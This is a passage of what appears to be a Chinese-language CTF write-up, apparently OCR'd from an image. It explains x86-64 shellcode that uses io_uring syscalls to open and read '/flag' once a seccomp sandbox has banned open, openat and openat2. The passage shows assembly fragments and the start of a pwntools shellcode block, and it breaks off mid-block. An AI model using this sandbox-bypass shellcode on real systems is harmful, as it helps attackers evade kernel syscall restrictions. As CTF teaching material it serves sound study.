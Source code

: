 #### 3. **`open` 操作**
```asm
mov rax, 0x67616c662f
mov [rbp - 0x60], rax
lea rdi, [rbp - 0x380]
call io_uring_get_sqe
```
这一部分代码在内存中构造文件路径字符串 `"/flag"`（通过 `0x67616c662f` 字节值的字符拼接）并调用 `io_uring_get_sqe` 获取提交队列元素（SQE）。随后，它调用 `io_uring_prep_rw` 来准备异步读写操作。

#### 4. **`read` 和 `write` 操作**
```asm
lea rdi, [rbp - 0x380]
call io_uring_get_sqe
mov rsi, rax
mov rdx, 4
lea rcx, [rbp - 0x60]
mov r8, 0x50
xor r9, r9
mov rdi, 22
call io_uring_prep_rw
```
这里准备了一个读操作，从文件读取 4 字节的数据。随后，执行了一个写操作，将数据写入文件。所有的操作都是异步的，通过 `io_uring` 提交队列来执行。

#### 5. **`while` 循环**
```asm
while:
jmp while
```
这部分代码使得程序进入一个死循环，持续运行。这通常意味着程序会等待异步 I/O 完成，或保持与内核的连接。

#### 6. **`io_uring` 辅助函数**
`io_uring_get_sqe` 和 `io_uring_prep_rw` 是两个辅助函数，负责准备和配置 `io_uring` 提交队列元素（SQE），以及执行相关的 I/O 操作。

### 总结

这段 shellcode 实现了以下功能：

1. **内存初始化**：分配并初始化内存空间。
2. **`io_uring` 初始化**：通过 `io_uring_mmap` 将内核中的 `io_uring` 数据结构映射到用户空间。
3. **文件操作**：通过构造文件路径字符串并调用 `io_uring` API 准备和执行异步文件 I/O 操作（如打开文件、读取文件、写入文件）。
4. **无限循环**：代码进入无限循环，保持程序的持续运行。

这段代码的关键目的是通过 `io_uring` 机制进行高效的文件 I/O 操作，并且它可能被用于执行某些渗透测试或漏洞利用任务。

1. open,openat都被禁，且openat2(0x1b5)不能使用，可以用下面这段shellcode来过掉沙箱：

   ```py
   		shellcode1=asm(f'''
   		mov rbp,rsp
   		sub rsp,0x400
   		mov eax,0
   		mov ecx,0x80
   		mov rdi,rsp
   		rep stosq
   		mov rdi,16
   		lea rsi,[rbp-0x3f8]
   		mov eax,425
   		syscall
   
   		mov [rbp-0x400],rax
   
   		/*  io_uring_mmap */
   		lea rdi,[rbp-0x380]
   		xor rax,rax
   		mov [rdi],rax
   		mov [rdi+208],rax
   ```